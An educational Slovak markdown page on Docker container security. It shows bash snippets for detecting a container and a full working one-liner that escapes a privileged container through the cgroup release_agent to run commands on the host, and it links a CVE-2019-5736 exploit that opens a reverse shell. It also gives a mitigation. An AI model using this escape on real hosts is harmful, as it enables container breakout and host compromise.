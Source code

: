 # Bezpečnosť Docker kontajnerov a ukážky útokov

## Detekcia a únik z kontajneru
### Detekcia

Útočník môže ma detekciu či sa nachádza v kontajneri, využiť viacero techník a podľa toho ďalej koordinovať svôj útok.

```bash
#!/bin/bash
if [ -f /.dockerenv ]; then
    echo "In docker container";
else
    echo "Maybe not in container";
fi
```

```bash
#!/bin/bash
if grep docker /proc/1/cgroup -qa; then
   echo "In docker container".
fi
```

### Únik z kontajneru

Útočník môže na únik z kontajneru využiť viacero možností, záleží od konfigurácie kontajneru. Pokiaľ kontajner beží v privileged móde, útočník má takmer vyhraté.

Nasledujúca ukážke spustí docker kontajner v privileged móde a v kontajneri spustíme sériu príkaz ktorá vypíše bežiace procesy na hostiteľovi.[5]
```bash
docker run --rm -it --privileged ubuntu bash

d=$(dirname $(ls -x /s*/fs/c*/*/r* |head -n1))
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

Tento únik je však možné jednoducho prekaziť, použitím iného používateľa ako root v kontajneri a tak sťažiť útočníkovi jeho prienik.

Pokiaľ sa jedná verziu docker staršiu ako 18.09.2 útočník môže pomocou chyby v runc prepísať hosťovskú runc knižnicu. Pokiaľ môže útočník kontrolovať image z ktorého bude vytvorený kontajner alebo mal útočník prístup existujúcemu kontajneru, ku ktorému bude vytvorené pripojenie pomocou docker exec. Tento problém vznikol, kvôli nesprávnemu spravovanie file descriptorov pre /proc/self/exe.

Tomuto problému bolo priradené [CVE-2019-5736 [6]](https://www.cvedetails.com/cve/CVE-2019-5736/) a je možné využiť túto zraniteľnosť pomocou [tohto exploitu[7]](https://www.exploit-db.com/exploits/46359), ktorý otvorí reverse shell útočníkovi. Ukážku útoku je možné si pozrieť v tomto [videu](https://youtu.be/gjvsbcAlQl8?t=27). Útočník však musí byť opatrný a vedieť čo robí, pretože tento útok je deštruktívny a može jeho prítomnosť veľmi rýchlo prezradiť.
